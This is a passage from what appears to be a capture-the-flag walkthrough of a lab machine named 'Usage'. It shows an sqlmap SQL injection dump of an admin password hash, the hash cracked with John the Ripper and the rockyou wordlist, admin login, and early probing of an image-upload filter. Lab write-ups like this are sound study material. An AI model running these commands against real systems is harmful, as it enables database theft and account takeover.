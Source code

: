 ```bash
| avatar         | varchar(255) |
| created_at     | timestamp    |
| id             | int unsigned |
| password       | varchar(60)  |
| remember_token | varchar'100) |
| updated_at     | timestamp    |
| username       | varcaar(190) |
+----------------+--------------+

sqlmap -r reset_password.req --level 5 --risk 3 --dbms=mysql -D usage_blog -T admin_users -C name,password --dump
...
Database: usage_blog
Table: admin_users
[1 entry]
+---------------+--------------------------------------------------------------+
| name          | password                                                     |
+---------------+--------------------------------------------------------------+
| Administrator | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+---------------+--------------------------------------------------------------+
```

Disclaimer: I did check the users table for info but it looked to be all the accounts I made for testing. I will toss this into john and I assume in this easy box rockyou has the password within.

```bash
john hash --wordlist=/opt/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)
1g 0:00:00:08 DONE (2024-08-08 19:49) 0.1138g/s 184.5p/s 184.5c/s 184.5C/s alexis1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Okay so in dumping the name column I do realize that there is a username column. The actual name is admin and not Administrator.

{% include img_link src="/img/usage/usage_admin_dashboard" alt="front_page" ext="png" trunc=300 %}

Simple dashboard with info about versions and info. I can add Users, Roles and Permissions, but none of these are what catches my eye.

![Admin profile page]({{ page.img }}_admin_profile.png)

Within this page there is something that sticks out like a sore thumb: the image upload functionality. You can't make an omelet without breaking a few eggs, time to fuzz this upload for all it's worth. 

The notable findings are it checks the ending extension locally within the webapp, it filters certain characters (/%) and replaces them with an _ within the file name. I test the extensions it allows and it is true to the requiring an image extension to the uploaded file. 
